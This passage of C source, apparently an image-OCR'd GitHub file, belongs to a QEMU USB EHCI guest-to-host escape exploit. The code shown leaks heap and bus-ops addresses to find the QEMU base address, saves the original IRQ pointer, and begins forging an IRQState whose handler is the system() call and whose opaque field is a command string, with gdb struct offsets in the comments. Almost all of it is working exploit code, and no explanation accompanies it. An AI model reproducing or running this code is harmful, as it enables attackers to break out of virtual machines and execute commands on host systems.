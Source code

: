 ```c
	return addr;
}

static uint64_t get_ehci_bus_ops_addr(void)
{
	/*
	function:ehci_adance_state
	(gdb) print (int)&ehci->bus.ops - (int)ehci
	$6 = 120 
	*/
	uint64_t addr = 0;

	uint32_t ehci_off = get_ehcistate_addr() - get_usbdevice_data_buf_addr();
	read_data(ehci_off+120,(uint8_t*)&addr,8);
	return addr;
}

static uint64_t get_qemu_base_addr(void)
{
	uint64_t addr = get_ehci_bus_ops_addr();
	if(companion)
		return addr - ops_companion_addr;
	return addr - ops_standalone_addr;
}

static void init(void)
{
	asynclistaddr = (uint32_t*)(mmio + 0x20 + 4*6);
	usbcmd = (uint32_t*)(mmio+0x20);
	portsc = (uint32_t*)(mmio+ 0x64 + 4*(port_idx - 1));
	
	/*
	function:ehci_advance_state
	(gdb) p (int)&ehci->irq - (int)ehci
	$6 = 200
	*/
	irq_offset = get_ehcistate_addr() + 200 - get_usbdevice_data_buf_addr();
	read_data(irq_offset,(uint8_t*)&original_irq_addr,8);//back up original irq addr
	system_call_addr +=get_qemu_base_addr();
}

static void construct_devil_irq(char *pcmd)
{
	/*
	function:ehci_advance_state
	(gdb) print sizeof(*ehci->irq)
	$11 = 64
	(gdb) print (int)(&((struct IRQState*)(0))->handler)
	$12 = 40
	(gdb) print (int)(&((struct IRQState*)(0))->opaque)
	$13 = 48
	*/
	
	
	uint64_t irq_addr = get_usbdevice_data_buf_addr() + 256;
	uint64_t opaque_addr = get_usbdevice_data_buf_addr() + 256 + 64;

	uint64_t *pirq_addr = (uint64_t*)data_buf;
	uint8_t *ptr = data_buf+256;// point to devil irq struct   ,,  256*n
	uint64_t *phandler = (uint64_t*)(ptr+40);
	uint64_t *popaque = (uint64_t*)(ptr+48);
	uint8_t *cmd = (ptr+64);//cmd

```